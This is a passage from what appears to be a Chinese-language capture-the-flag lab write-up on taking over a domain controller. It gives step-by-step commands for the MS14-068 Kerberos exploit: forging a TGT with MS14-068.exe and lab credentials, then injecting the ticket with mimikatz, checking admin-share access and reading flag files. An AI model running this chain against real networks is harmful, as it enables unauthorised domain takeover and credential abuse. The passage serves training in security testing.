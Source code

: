 

![image-20231018150534000](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018150534000.png)

没有打补丁，那可以尝试利用`MS14-068`来获取域控权限

工具 https://github.com/Al1ex/WindowsElevation/tree/master/CVE-2014-6324

获取`sid`

```
whoami /user
```

![image-20231018151029404](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018151029404.png)

获取TGT票据

```bash
MS14-068.exe -u LL@cyber123.com -p Llyoyo123# -s S-1-5-21-2718660907-658632824-2072795563-1104 -d scene.cyber123.com
```

清楚内存中所有票据

```bash
mimikatz.exe "kerberos::purge" exit
```

将高权限票据注入内存

```bash
mimikatz.exe "kerberos::ptc TGT_LL@cyber123.com.ccache" exit
```

验证权限

```bash
dir \\scene.cyber123.com\c$
```

成功获取域控

![image-20231018152747357](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018152747357.png)



### flag8

直接拿flag

```bash
type \\scene.cyber123.com\c$\Users\Administratot\Desktop\flag.txt
```

![image-20231018152848990](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018152848990.png)

### flag9

```
type \\USER3\c$\Users\Administratot\Desktop\flag.txt
```
